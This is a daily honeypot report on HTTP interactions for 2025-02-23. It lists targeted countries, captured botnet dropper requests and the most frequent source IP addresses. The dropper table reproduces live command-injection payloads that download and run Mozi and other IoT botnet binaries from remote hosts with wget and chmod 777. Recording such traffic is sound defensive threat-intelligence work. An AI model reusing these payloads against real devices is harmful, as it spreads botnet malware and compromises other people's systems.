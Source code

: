 ```yaml
---
title: "Report: 2025-02-23 "
date: 2025-02-23
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-02-23
interaction report on http service of various Hhoneypot around the world.
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of source IP addresses](#list_of_source_ip_addresses)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| FR               | Singapore          |
| CN               | Singapore          |
| US               | Dubai              |
| CN               | Georgia            |
| US               | Georgia            |

## botnet_dropper_behaviour
| remote_addr   | request                                                                                                                                                                                                                                                                                                       |
|:--------------|:--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 141.98.11.27  | GET /shell?killall+-9+arm7;killall+-9+arm4;killall+-9+arm;killall+-9+/bin/sh;killall+-9+/bin/sh;killall+-9+/z/bin;killall+-9+/bin/bash;cd+/tmp;rm+arm4+efefa7;wget+http:/\x5C/176.65.140.135/efefa7;chmod+777+efefa7;./efefa7+jaws;wget+http:/\x5C/176.65.140.135/drea4;chmod+777+drea4;./drea4+jaws HTTP/1.1 |
| 45.230.66.13  | GET /shell?cd+/tmp;rm+-rf+*;wget+http://45.230.66.13:11954/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                                                                                                                                                  |
| 117.209.83.52 | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                                                                                                         |
| 194.85.251.34 | GET /shell?cd+/tmp;rm+-rf+g4za.arm7;nohup+wget+http:/\x5C/185.232.205.104/bins/g4za.arm7;chmod+777+g4za.arm7;./g4za.arm7;ulimit+-n+99999;ulimit+-u+99999;ulimit+-l+99999 HTTP/1.1                                                                                                                             |
| 194.85.251.34 | GET /shell?cd+/tmp;rm+-rf+g4za.x86;nohup+wget+http:/\x5C/185.232.205.104/bins/g4za.x86;chmod+777+g4za.x86;./g4za.x86;ulimit+-n+99999;ulimit+-u+99999;ulimit+-l+99999 HTTP/1.1                                                                                                                                 |

## list_of_source_IP_addresses
|     |   number_of_occurence | remote_addr     |
|----:|----------------------:|:----------------|
|   0 |                   201 | 193.41.206.202  |
|   1 |                   159 | 193.41.206.176  |
|   2 |                    70 | 45.148.10.90    |
|   3 |                    60 | 185.196.8.66    |
|   4 |                    58 | 45.148.10.34    |
|   5 |                    52 | 193.68.89.10    |
|   6 |                    45 | 102.211.152.45  |
